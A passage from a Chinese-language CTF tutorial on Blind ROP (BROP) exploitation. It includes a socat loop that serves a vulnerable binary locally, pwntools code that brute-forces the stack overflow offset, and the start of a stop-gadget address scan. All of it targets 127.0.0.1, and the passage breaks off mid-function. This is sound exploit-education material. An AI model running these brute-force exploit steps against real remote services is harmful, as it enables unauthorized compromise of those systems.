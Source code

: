 ```bash
        num=`ps -ef | grep "socat" | grep -v "grep" | wc -l`
        if [ $num -lt 5 ]; then
                socat tcp4-listen:10001,reuseaddr,fork exec:./a.out &
        fi
done
```
在一个单独的 shell 中运行它，这样我们就简单模拟出了比赛时的环境，即仅提供 ip 和端口。（不停地断开重连特别耗CPU，建议在服务器上跑）


## BROP 原理及题目解析
BROP 即 Blind ROP，需要我们在无法获得二进制文件的情况下，通过 ROP 进行远程攻击，劫持该应用程序的控制流，可用于开启了 ASLR、NX 和栈 canary 的 64-bit Linux。这一概念是是在 2014 年提出的，论文和幻灯片在参考资料中。

实现这一攻击有两个必要条件：
1. 目标程序存在一个栈溢出漏洞，并且我们知道怎样去触发它
2. 目标进程在崩溃后会立即重启，并且重启后进程被加载的地址不变，这样即使目标机器开启了 ASLR 也没有影响。

下面我们结合题目来讲一讲。


## 漏洞利用
#### 栈溢出
首先是要找到栈溢出的漏洞，老办法从 1 个字符开始，暴力枚举，直到它崩溃。
```python
def get_buffer_size():
    for i in range(100):
        payload  = "A"
        payload += "A"*i
        buf_size = len(payload) - 1
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.send(payload)
            p.recv()
            p.close()
            log.info("bad: %d" % buf_size)
        except EOFError as e:
            p.close()
            log.info("buffer size: %d" % buf_size)
            return buf_size
```
```
[*] buffer size: 72
```
要注意的是，崩溃意味着我们覆盖到了返回地址，所以缓冲区应该是发送的字符数减一，即 buf(64)+ebp(8)=72。该题并没有开启 canary，所以跳过爆破的过程。

#### stop gadget
在寻找通用 gadget 之前，我们需要一个 stop gadget。一般情况下，当我们把返回地址覆盖后，程序有很大的几率会挂掉，因为所覆盖的地址可能并不是合法的，所以我们需要一个能够使程序正常返回的地址，称作 stop gadget，这一步至关重要。stop gadget 可能不止一个，这里我们之间返回找到的第一个好了：
```python
def get_stop_addr(buf_size):
    addr = 0x400000
    while True:
        sleep(0.1)
        addr += 1
        payload  = "A"*buf_size
        payload += p64(addr)
        try:
            p = remote('127.0.0.1', 10001)
            p.recvline()
            p.sendline(payload)
            p.recvline()
            p.close()
            log.info("stop address: 0x%x" % addr)
```